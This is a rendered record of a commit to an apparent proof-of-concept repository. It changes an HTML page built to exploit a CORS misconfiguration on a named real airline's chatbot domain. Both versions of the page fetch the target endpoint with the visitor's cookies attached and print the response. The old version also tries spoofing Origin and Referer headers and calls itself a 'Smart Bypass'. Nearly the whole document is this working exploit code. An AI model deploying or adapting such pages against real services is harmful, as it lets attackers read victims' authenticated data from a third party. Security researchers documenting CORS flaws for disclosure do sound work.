

Before and after one commit to zoro-v/flynas-poc, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,43 +1,52 @@
 <!DOCTYPE html>
-<html lang="en">
+<html>
 <head>
   <meta charset="UTF-8">
-  <title>Flynas CORS PoC</title>
+  <title>Flynas Chatbot CORS PoC</title>
+  <style>
+    body { background:#111; color:#eee; font-family:monospace; padding:20px; }
+    input,button { padding:8px; margin:5px; }
+    pre { background:#222; padding:10px; white-space:pre-wrap; word-wrap:break-word; }
+  </style>
 </head>
 <body>
-  <h2>Flynas CORS Exploit (Smart Bypass)</h2>
-  <p>Enter endpoint from <code>chatbot.flynas.com</code> and click Fetch:</p>
+  <h2>Flynas Chatbot CORS PoC</h2>
 
-  <input id="url" type="text" size="120"
-         placeholder="https://chatbot.flynas.com/socket.io/?EIO=3&transport=polling&t=xxxx">
-  <button onclick="fetchData()">Fetch Data</button>
+  <input type="text" id="url" size="80"
+    value="https://chatbot.flynas.com/socket.io/?EIO=3&transport=polling" />
+
+  <br>
+  <button onclick="doGet()">GET Test</button>
+  <button onclick="doPost()">POST Test</button>
 
   <h3>Response:</h3>
   <pre id="output"></pre>
 
   <script>
-    async function fetchData() {
-      const targetUrl = document.getElementById("url").value;
-      const output = document.getElementById("output");
-      output.textContent = "Fetching...";
+    async function doGet() {
+      const url = document.getElementById("url").value;
+      try {
+        let res = await fetch(url, { credentials: "include" });
+        let text = await res.text();
+        document.getElementById("output").innerText = text;
+      } catch (e) {
+        document.getElementById("output").innerText = e;
+      }
+    }
 
+    async function doPost() {
+      const url = document.getElementById("url").value;
       try {
-        const res = await fetch(targetUrl, {
-          method: "GET",
-          mode: "cors",
+        let res = await fetch(url, {
+          method: "POST",
           credentials: "include",
-          headers: {
-            "Origin": window.location.origin,   // دومينك على GitHub Pages
-            "Referer": "https://www.flynas.com/",
-            "User-Agent": navigator.userAgent,
-            "Accept": "application/json, text/plain, */*"
-          }
+          headers: { "Content-Type": "application/json" },
+          body: JSON.stringify({ text: "Hello from PoC site" })
         });
-
-        const text = await res.text();
-        output.textContent = text;
-      } catch (err) {
-        output.textContent = "Error: " + err;
+        let text = await res.text();
+        document.getElementById("output").innerText = text;
+      } catch (e) {
+        document.getElementById("output").innerText = e;
       }
     }
   </script>
```
